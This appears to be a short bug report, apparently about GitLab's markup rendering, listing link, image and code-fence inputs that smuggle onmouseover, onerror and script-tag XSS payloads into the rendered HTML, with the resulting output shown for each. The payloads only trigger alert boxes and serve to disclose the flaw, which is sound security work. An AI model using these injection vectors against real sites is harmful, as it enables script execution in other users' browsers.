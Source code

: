 link:asd&colon;bla"onmouseover="alert(1)[KLIK HIER]
link:asd&#x3a bla"onmouseover="alert(1)[KLIK HIER2]
  Results in: <a onmouseover="alert(1)" href="bla">KLIK HIER</a>
image:https://gitlab-a.ing.net/fake.png[Alt text" onerror="alert(7)]
  Results in: <img onerror="alert(7)" alt="Alt text" src="https://gitlab-a.ing.net/fake.png">
```blaat"><script>alert(3)</script>
  Results in: <pre lang="blaat"><script>alert(3)</script>"&gt;<code></code></pre>
